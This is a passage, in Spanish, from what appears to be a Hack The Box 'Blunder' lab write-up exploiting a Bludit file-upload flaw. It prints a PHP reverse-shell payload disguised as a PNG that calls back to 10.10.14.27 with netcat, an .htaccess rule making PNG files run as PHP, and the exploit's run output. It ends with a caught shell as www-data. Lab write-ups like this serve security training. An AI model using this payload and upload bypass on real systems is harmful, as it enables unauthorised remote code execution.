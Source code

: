 Lo leemos para ver que nos pide o que necesitamos para poderlo ejecutar. Cambiamos los valodres de url, username y password. Ahora creamos nuestro archivo png con contenido php que nos permita entablarnos la reverse shell.

```bash
❯ cat k4mishell.png
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: k4mishell.png
       │ Size: 98 B
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.27 443 >/tmp/f"); ?>
```

Creamos el payload2 de acuerdo con lo que nos indica el exploit:

```bash
❯ echo "RewriteEngine off" > .htaccess
❯ echo "AddType application/x-httpd-php .png" >> .htaccess
```

Ejecutamos el exploit:

```bash
❯ python3 bludit_rce.py
cookie: 9lqjvu73d8l94eu4vj44ml1uc4
csrf_token: 550b5a0bda69882d0de4407c6423bfe5d7d16cf0
Uploading payload: k4mishell.png
Uploading payload: .htaccess
```

Nos ponemos en escucha por el puerto 443 y ahora dice que debemos ingresar a la ruta `/bl-content/tmp/temp/` y deberíamos ver nuestro archivo. Por lo que al seleccionarlo deberíamos tener la conexión.

![](/assets/images/htb-blunder/blunder-web5.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.191] 43240
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
